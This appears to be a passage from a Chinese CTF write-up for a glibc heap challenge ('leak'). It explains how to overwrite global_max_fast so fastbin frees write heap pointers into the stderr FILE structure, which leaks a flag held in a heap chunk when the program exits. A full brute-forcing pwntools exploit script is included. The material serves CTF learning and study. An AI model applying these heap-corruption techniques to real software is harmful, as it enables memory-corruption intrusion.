

然后这道题没有show函数，而且没有puts等io输出函数，程序的所有输出都是自己用write函数来封装的，因此我们无法在这道题打IO leak泄露libc地址。

发现这道题其实已经将flag读到了一个堆块里(如下)


另外值得一提的就是在add函数里申请堆块的时候，最大可以申请到0x60000的堆块。




### 利用思路：

因为这道题已经将flag读到堆块里了，所以我们应该考虑如何输出堆块里的数据。在exit退出的时候，会刷新IO_list_all链表上的所有文件流，而在刷新的时候_IO_2_1_stderr结构体中的\_IO_write_base字段与\_IO_write_ptr字段之间如果存在数据的话，就会将其输出出来，如果我们能让这两个字段之间包含了存flag的那个堆块，在程序退出的时候就可以打印出来flag了。

#### 篡改global_max_fast

这样的话我们需要向stderr结构体里写入两个堆地址，于是思路是我们将global_max_fast改为一个大数，导致fastbinsY数组的溢出，计算好目标地址和fastbin数组之间的偏移，申请一个对应size的堆块，就可以让堆地址写入到目标地址了。

这里简单叙述下讲堆地址写入目标地址的原理:

> 各类的bins的首地址都记录在了main_arena上，而fastbinY数组就是用来记录fastbin各个链的首地址。这个fastbinY数组定义的是10，所以理论上0xb0以内的堆块分到fastbbin中(但事实上fastbin正常情况最大的链为0x80)。而global_max_fast的作用表明了fastbin索引的阈值，如果我们能控制global_max_fast将其改为一个大数的话(假设改成0x1000)，再次释放掉一个0x500的堆块，那么该堆块就会进入fastbinY[0x4e]的位置(0x4e==(0x500-0x20)/0x10)，此时就会在fastbinY[0x4e]的地址留下一个堆地址。而fastbinY[0x4e]很明显是数组越界了，所以这个手法能在fastbinY数组的高地址去写入一个堆地址。

这道题我们所需要的也就是在stderr结构体里写入两个堆地址，具体的size计算方法为

```py
fastbin_ptr = main_arena_addr + 8 #fastbinY数组的地址就是main_arena+8的位置
index = (target_addr-fastbin_ptr)/8#target_addr是我们希望将堆地址写入目标地址
size = index*0x10 + 0x20#最后将其size大小的堆块释放掉，就可以让目标地址里写入一个堆地址(前提是global_max_fast要比index大)
```


剩下的部分就较为简单了，我们只需要将global_max_fast和_IO_2_1_stderr申请出来，将前者改大，后者用于edit改写stderr的base字段的末尾(因为此处写入的堆地址并不是存储flag的那个堆块，所以需要最后用edit来修改一下该地址的低字节)。

#### 申请global_max_fast&&stderr

因为没有libc地址，所以我们需要借助unsorted bin的fd和bk指针main_arena+96再爆破下低字节从而做出来global_max_fast和stderr。此处操作的思路如下:

>add chunk1 0x80
>add chunk2 0x80
>add chunk3 0x80
>add chunk4 0x410 #不考虑与top chunk合并
>delete 1
>delete 3
>delete 2
>delete 4
>
>此时的bins情况为
>tcache bin 0x90 :chunk2->chunk3->chunk1
>unsorted bin:chunk4->main_arena+96
>
>我们利用uaf+edit篡改chunk2的fd指针的低字节，将本来的chunk3改成chunk4
>于是tcache bin 0x90:chunk2->chunk4->main_arena+96
>再编辑chunk4，去修改main_arena+96的低字节，将其改为global_max_fast，最后即可申请出来global_max_fast


而申请出来stderr的方法同上，我是将unsorted bin的fd改成了global_max_fast bk改为了stderr结构体(如下)



**注意:由于这样申请出来会破坏unsorted bin，所以在破坏之前，我们需要把之后用到的所有堆块先全部申请出来**


把上面两个地址申请出来后，最后释放掉size为0x14b0和0x14c0的两个堆块，即可将两个堆地址写入stderr结构体中(情况如下)




因为之前我们将stderr结构体申请出来了，此时自然可以编辑它，将base字段的末尾改到装有flag的堆块低地址处，最后执行exit函数即可获取flag(不过最终脚本需要爆破，概率为1/256)

### EXP:

```py
from tools import *

context.arch = "amd64"
#context.log_level = "debug"

def add(idx,size):
    p.sendlineafter("Your choice: ", "1")
    p.sendlineafter("Index: ", str(idx))
    p.sendlineafter("Size: ", str(size))


def edit(idx, content):
    p.sendlineafter("Your choice: ", "2")
    p.sendlineafter("Index: ", str(idx))
    p.sendafter("Content: ", content)

def delete(idx):
    p.sendlineafter("Your choice: ", "3")
    p.sendlineafter("Index: ", str(idx))

def pwn():
    add(9,0xb0)#chunk9
    add(0,0x70)#chunk0
    add(1,0x410)#chunk1
    add(2,0x70)#chunk2
    add(3,0x70)#chunk3

    add(7,0xb0)#chunk7
    add(10,0x410)#chunk10
    add(15,0x14b0)
    add(14,0x14c0)
    add(8,0xb0)#chunk8

    delete(3)
    delete(0)
    delete(2)

    delete(1)
    #chunk2->chunk0->chunk3

    delete(9)
    delete(7)
    delete(8)
    delete(10)
    #chunk8->chunk7->chunk9

    edit(2,'\xe0')#unsorted bin chunk get into tcache bin
    edit(1,'\x40\xf9')#tamper main_arena+96 to global max fast
    edit(8,'\xc8')

    edit(10,'a'*8+'\x80\xe6')

    add(4,0x70)
    add(5,0x70)
    add(6,0x70)

    edit(6,str(0x7fff))

    add(11,0xb0)
    add(12,0xb0)

    add(13,0xb0)#stderr
    debug(p,'pie',0x23E3,0x23EF,0x2297,0x23FB)
    delete(14)
    delete(15)
    payload=p64(0xfbad1887)+p64(0)*3+b'\x00\x90'
    edit(13,payload)
    p.sendlineafter("Your choice: ", "6")
    p.interactive()


cnt=0
while 1:
    try:
        p,e,libc=load("leak")
        pwn()
    except EOFError:
        p.close()
    print('------------->'+str(cnt))
    cnt=cnt+1
```



